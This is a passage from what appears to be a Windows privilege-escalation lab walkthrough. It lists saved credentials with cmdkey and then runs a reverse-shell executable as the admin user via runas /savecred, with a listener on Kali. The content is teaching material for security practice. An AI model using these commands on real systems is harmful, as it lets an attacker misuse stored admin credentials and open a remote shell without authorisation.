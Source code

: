 
1. List any saved credentials:

```
cmdkey /list
```

> [!NOTE]
> Credentials for the "admin" user are saved. If they aren't, run the C:\PrivEsc\savecred.bat script to refresh the saved credentials.

2. Start a listener on Kali and run the reverse.exe executable using runas with the admin user's saved credentials:
```
runas /savecred /user:admin C:\PrivEsc\reverse.exe
```